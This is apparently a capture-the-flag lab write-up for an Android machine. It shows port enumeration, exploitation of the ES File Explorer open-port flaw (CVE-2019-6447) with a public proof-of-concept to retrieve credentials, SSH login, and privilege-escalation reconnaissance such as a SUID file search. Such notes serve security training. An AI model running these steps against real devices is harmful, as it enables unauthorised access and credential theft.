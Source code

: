 OS: Android
IP: 10.10.10.247

###Skills learned:
ssh port forwarding
Andriod OS + tools

###Enum
nmap -p- -A -oN Exploreprts.txt ${IP}
+ 2222 SimplSSH
+ 5555 Andriod Debug bridge
+ 42135 ES File explorer
+ 59777 Bukkit JSONAPI (This is the vulnerability - mislabeled59777)
+ 44233 fingerprint-strings

###Search
Yields CVE-2019-6447
https://github.com/fs0c131y/ESFileExplorerOpenPortVuln
https://www.exploit-db.com/exploits/50070

###Step 1
python3 poc.py ${cmd} ${IP} 
python3 poc.py ${cmd} ${IP} $dir/$.jpg
[+] Done. Saved as 'out.dat'.

Now that you have downloaded the file, open the URL in a browser.
${IP}:59777/$dir/$.jpg

Revealing UN && PW:

###Step 2
ssh -p 2222 $UN@${IP} 
${PW}

###Info gathering
:/whoami
u0_a76
:/uname -a 
Linux localhost 4.9.214-android-x86_64-g04f9324 #1 SMP PREEMPT Wed Mar 25 17:11:29 CST 2020 x86_64
:/find / -perm /6000 2>/dev/null
/system/xbin/procmem
/system/xbin/su
:/ $ id
uid=10076(u0_a76) gid=10076(u0_a76) groups=10076(u0_a76),3003(inet),9997(everybody),20076(u0_a76_cache),50076(all_a76) context=u:r:untrusted_app:s0:c76,c256,c512,c768

### Find Flag
Have fun searching! 
